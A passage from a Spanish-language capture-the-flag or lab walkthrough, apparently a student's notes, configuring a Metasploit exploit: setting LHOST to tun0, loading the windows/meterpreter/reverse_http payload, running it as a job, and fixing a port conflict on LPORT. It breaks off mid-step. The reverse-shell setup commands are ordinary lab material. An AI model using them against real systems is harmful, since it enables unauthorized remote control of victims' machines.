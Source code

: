 Ahora, configuramos LHOST:

```
set LHOST tun0
```

![](IMG/Pasted%20image%2020250228230415.png)

**Respuesta: No aplica.**


> [!NOTE] 
> Importante, hay que configurar tambien LPORT a un puerto distinto a 8080 o nos dará error, como veremos mas adelante, por no haberlo configurado aquí.


## d) Por último, configuremos nuestra carga útil. En este caso, utilizaremos una carga útil HTTP inversa simple. Haga esto ahora con el comando: 'set payload windows/meterpreter/reverse_http'. A continuación, ejecute el ataque como un trabajo con el comando 'run -j'.

Ejecutamos:

```
set payload windows/meterpreter/reverse_http
```

![](IMG/Pasted%20image%2020250228230613.png)

y ejecutamos:

```
run -j
```

Y nos da un error en el que nos dice que la dirección ya esta en uso.

![](IMG/Pasted%20image%2020250228230739.png)

El problema está en que tanto el servidor como el cliente tienen el mismo puerto configurado, el 8080, deberiamos hacerlo configurado antes, cuando hicimos la configuracion del LHOST, tambien debiamos hacer la del LPORT y ponerla en otro puerto distinto a 8080, por ejemplo, 1234, asi que lo configuramos:
